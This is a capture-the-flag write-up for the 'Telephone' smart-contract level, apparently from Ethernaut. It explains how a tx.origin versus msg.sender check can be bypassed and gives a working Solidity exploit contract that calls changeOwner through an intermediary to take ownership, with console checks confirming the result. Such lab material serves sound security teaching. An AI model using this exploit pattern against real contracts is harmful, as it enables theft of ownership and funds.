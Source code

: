 # 04. Telephone

Claim ownership of the contract below to complete this level.

Things that might help:

- See the Help page above, section "Beyond the console"

## Solution

In order to change the owner of the contract we can exploit the following function:

```solidity
function changeOwner(address _owner) public {
  if (tx.origin != msg.sender) {
    owner = _owner;
  }
}
```

`tx.origin` and `msg.sender` difference is explained [here](https://ethereum.stackexchange.com/a/1892)

To successfully take the ownership of the contract we need to exploit another contract.

In Remix IDE:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
// -------------------------------- Original contract 
contract Telephone {
  address public owner;
  constructor() public {
    owner = msg.sender;
  }
  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
// -------------------------------- Exploit           
contract Exploit {
    address originalAddress = 0x2BeE993f44d271A87C858367DFEaE036b20e5ADf;  // Change this with the challenge address
    Telephone public originalContract = Telephone(originalAddress);
    function takeOwnership(address me) public {
        originalContract.changeOwner(me);
    }
}
```

In this way, when we call `Exploit.takeOwnership`, `tx.origin` will be equals to `player`, while `msg.sender` will be equal to `Exploit` contract address

```javascript
// Before executing the contract exploit
await contract.owner() == player
// -> false
// After exploit execution
await contract.owner() == player
// -> true
```

